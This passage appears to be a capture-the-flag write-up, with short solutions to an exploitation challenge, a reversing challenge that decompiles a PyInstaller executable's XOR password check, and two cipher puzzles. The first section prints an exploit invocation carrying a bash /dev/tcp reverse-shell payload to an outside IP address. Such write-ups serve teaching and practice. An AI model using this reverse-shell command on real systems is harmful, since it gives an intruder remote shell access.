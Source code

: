 I used netcat to get a reverse shell:

```bash
python3 exploit.py -s play.h4ck3r.one:9002 -c "sh -i >& /dev/tcp/193.161.193.99/61477 0>&1"
```

I got a root shell and I found the flag in FLAG.txt in logs.

### Eskimo 2

Same as the 1st one. The file .bash_history hasn’t been cleared so I found all setups commands and the location of the second FLAG.txt in /root.

## Reversing

### Reverse me ….

I opened the .exe in IDA and I saw with the imports that it was a compiled Python script.

I used [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) to unpack the .exe file and [uncompyle6](https://github.com/rocky/python-uncompyle6) to decompile .pyc files.

I saw in IDA that the script is called “test.py” so I decompiled “test.pyc”:

```bash
# uncompyle6 version 3.8.0
# Python bytecode 3.8.0 (3413)
# Decompiled from: Python 3.10.1 (tags/v3.10.1:2cd268a, Dec  6 2021, 19:10:37) [MSC v.1929 64 bit (AMD64)]
# Embedded file name: test.py
s1 = '\x16-24\x0c;\x1a\r,\n\x19\x03\x01B\x0f4\x12\r3!6996<*3+"'
s2 = ''
while s2 != 'Pa' + chr(115) + 'sw' + chr(111) + 'rd' + chr(95) + 'Unbr' + chr(101) + chr(97) + 'kable' + chr(95) * 9:
    s2 = input('Please insert password: ')

print(''.join((chr(ord(a) ^ ord(b)) for a, b in zip(s1, s2))))
# okay decompiling test.pyc
```

I removed the while loop in the script and got the flag with the last print.

## Crypto

### DecryptMe

I used [dcode.fr](http://dcode.fr) to identify the cipher type. Then I used dcode to brute force it and find the flag.

### BBQ

It’s obviously a book cipher so I looked for the book PDF in Google. In the file, “cX” is the charcacter number, “rX” the row number and “pX” the page number. After getting all characters, I got the flag.
